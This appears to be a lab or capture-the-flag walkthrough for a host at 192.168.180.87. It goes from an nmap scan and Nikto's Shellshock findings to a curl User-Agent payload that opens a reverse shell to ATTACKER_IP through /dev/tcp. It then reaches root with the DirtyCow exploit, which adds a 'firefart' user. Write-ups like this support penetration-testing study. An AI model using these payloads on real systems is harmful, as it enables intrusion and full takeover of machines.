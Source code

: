
## Box : 192.168.180.87/

## Nmap Scan
```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10
80/tcp open  http    Apache httpd 2.2.22 (Ubuntu)
```

## Shellshock Vulnerability
Nikto identifies `/cgi-bin/test` as Shellshock‑vulnerable:
```text
/cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability. (CVE-2014-6271)
/cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability. (CVE-2014-6278)
```

### Initial Foothold
1. **Run listener** on your machine:
   ```bash
   nc -lvnp 4444
   ```
2. **Exploit Shellshock** using a crafted User-Agent:
   ```bash
   curl -H 'User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' \
     http://192.168.180.87/cgi-bin/test
   ```
3. **Got shell** as \`www-data\`.

## Privilege Escalation: DirtyCow (CVE-2016-5195)
- **OS:** Ubuntu 12.04 LTS (kernel vulnerable to DirtyCow).

### Steps to root
```bash
# Ensure gcc is in PATH
export PATH=$PATH:/usr/lib/gcc/x86_64-linux-gnu/4.8
```
# Compile DirtyCow exploit
```bash
gcc -pthread dirty.c -o dirty -lcrypt
```
# Run exploit to add root user 'firefart'
./dirty

# Login as new user
su firefart
# Password: password
whoami
# root
